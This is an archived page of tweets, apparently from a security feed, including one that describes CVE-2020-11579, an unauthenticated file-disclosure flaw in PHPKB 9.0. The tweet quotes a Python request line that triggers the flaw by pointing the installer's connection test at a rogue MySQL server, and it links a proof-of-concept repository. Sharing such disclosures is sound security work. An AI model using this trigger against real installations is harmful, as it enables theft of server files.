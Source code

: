<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Eet-QklXsAAWYgz.png" alt="http://pbs.twimg.com/media/Eet-QklXsAAWYgz.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1291187268846096384 _at 2020-08-06 01:40:08_**
<blockquote>
CVE-2020-11579 PHPKB 9.0 Enterprise Edition (MySQL database) unauthenticated arbitrary file disclosure via a malicious MySQL Server.

trigger_fe = requests.get("{}/installer/include/test-connection.php?mys={}:{}&amp;myu=test&amp;myp=test&amp;myd=test"

https://t.co/9LKtly8vsx
</blockquote>

* https://github.com/ShielderSec/CVE-2020-11579

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---